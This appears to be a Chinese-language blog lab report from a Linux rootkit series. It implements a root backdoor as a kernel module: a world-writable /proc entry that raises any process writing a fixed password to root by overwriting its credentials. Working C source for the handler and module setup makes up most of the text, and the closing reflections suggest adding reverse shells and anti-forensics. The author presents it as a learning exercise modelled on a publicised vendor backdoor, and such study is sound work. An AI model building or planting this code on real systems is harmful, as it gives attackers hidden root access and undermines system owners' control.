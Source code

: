 ```yaml
---
category: rootkit
title: Linux Rootkit 实验 | 00021 Rootkit 基本功能实现xROOT后门
---
```


# {{ page.title }}

## 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“提供 root 后门”功能**

## 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

## 实验过程

### 提供 root 后门

这个后门参考之前很火的“全志科技”使用的代码。

简单来说，是这样：我们在`/proc`下创建一个文件，任何进程往其中写入特定的口令，我们就把它提升为`root`权限（把`uid`和`euid`等设为`0`）。

**这个文件可以用本系列后面的“隐藏文件”实验的方法隐藏掉。**

使用到的 API 是`proc_create`和`proc_remove`：

{% highlight c %}
// include/linux/proc_fs.h
// 参数分别是：文件名/访问模式/父目录/文件操作函数结构体
static inline struct proc_dir_entry *proc_create(
	const char *name, umode_t mode, struct proc_dir_entry *parent,
	const struct file_operations *proc_fops)
{
	return proc_create_data(name, mode, parent, proc_fops, NULL);
}
// fs/proc/generic.c
void proc_remove(struct proc_dir_entry *de)
{
	if (de)
		remove_proc_subtree(de->name, de->parent);
}
{% endhighlight %}

我们跟进看一下`struct file_operations`：

{% highlight c %}
// include/linux/fs.h
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*read_iter) (struct kiocb *, struct iov_iter *);
	ssize_t (*write_iter) (struct kiocb *, struct iov_iter *);
	int (*iterate) (struct file *, struct dir_context *);
	int (*iterate_shared) (struct file *, struct dir_context *);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
	int (*setlease)(struct file *, long, struct file_lock **, void **);
	long (*fallocate)(struct file *file, int mode, loff_t offset,
			  loff_t len);
	void (*show_fdinfo)(struct seq_file *m, struct file *f);
#ifndef CONFIG_MMU
	unsigned (*mmap_capabilities)(struct file *);
#endif
	ssize_t (*copy_file_range)(struct file *, loff_t, struct file *,
			loff_t, size_t, unsigned int);
	int (*clone_file_range)(struct file *, loff_t, struct file *, loff_t,
			u64);
	ssize_t (*dedupe_file_range)(struct file *, u64, u64, struct file *,
			u64);
};
{% endhighlight %}

其中是各种函数指针。我们目前只用到写操作处理函数：

{% highlight c %}
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
{% endhighlight %}

**下面开始行动！**

{% highlight c %}
// 声明写处理函数并放入结构体
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp);

struct file_operations proc_fops = {
    .write = write_handler
};

// 定义写处理函数
#define AUTH "00100011F"
ssize_t
write_handler(struct file * filp, const char __user *buff,
              size_t count, loff_t *offp)
{
    char *kbuff;
    struct cred* cred;

    // 分配内存。
    kbuff = kmalloc(count + 1, GFP_KERNEL);
    if (!kbuff) {
        return -ENOMEM;
    }

    // 复制到内核缓冲区。
    if (copy_from_user(kbuff, buff, count)) {
        kfree(kbuff);
        return -EFAULT;
    }
    kbuff[count] = (char)0;

    if (strlen(kbuff) == strlen(AUTH) &&
        strncmp(AUTH, kbuff, count) == 0) {

        // 用户进程写入的内容是我们的口令或者密码，
        // 把进程的 ``uid`` 与 ``gid`` 等等
        // 都设置成 ``root`` 账号的，将其提权到 ``root``。
        printk("%s\n", "Comrade, I will help you.");
        cred = (struct cred *)__task_cred(current);
        cred->uid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
        cred->gid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
        printk("%s\n", "See you!");
    } else {
        // 密码错误，拒绝提权。
        printk("Alien, get out of here: %s.\n", kbuff);
    }

    kfree(kbuff);
    return count;
}
{% endhighlight %}

最后，添加全局变量`struct proc_dir_entry *entry`，并分别在入口函数/出口函数中创建/删除我们的文件：

{% highlight c %}
#define NAME "JUSTFORFUN"
struct proc_dir_entry *entry;
// in init
entry = proc_create(NAME, S_IRUGO | S_IWUGO, NULL, &proc_fops);
// in exit
proc_remove(entry);
{% endhighlight %}

测试结果如下：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-8.png)

## 实验总结与思考

- 内核中的事情，真的是要细心。顺着 FreeBuf 的文章往下看时，`kbuff = kmalloc(count, GFP_KERNEL);`这个地方少分配了一个尾零。事实上应该是`kbuff = kmalloc(count + 1, GFP_KERNEL);`

- 另外注意：

是

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-7-err3.png)

而不是

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-7-err4.png)

- 个人以为 rootkit 应该提供一个能够远程连接的 root shell（对于内网的机器，用 reverse shell 是不是更好），并具备痕迹清理、自我删除甚至更强的反取证功能（另外，是否需要隐藏当前登录用户？）

## 参考资料

**已参考**

- [allwinner-zh/linux-3.4-sunxi](https://github.com/allwinner-zh/linux-3.4-sunxi/blob/bd5637f7297c6abf78f93b31fc1dd33f2c1a9f76/arch/arm/mach-sunxi/sunxi-debug.c#L41)

**拓展阅读**

- [This is what a root debug backdoor in a Linux kernel looks like](http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/)
